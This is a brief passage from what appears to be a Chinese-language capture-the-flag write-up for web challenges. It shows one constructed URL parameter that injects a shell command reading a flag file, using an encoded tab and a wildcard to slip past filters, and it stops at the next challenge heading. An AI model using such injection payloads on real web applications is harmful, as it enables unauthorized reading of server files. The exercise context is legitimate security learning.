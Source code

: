 ![image-20240120131449728](image/image-20240120131449728.png)

构建命令

```
?c=tac%09fla?.php%26
```

得到flag

![image-20240120131524483](image/image-20240120131524483.png)

------

#### web50

分析
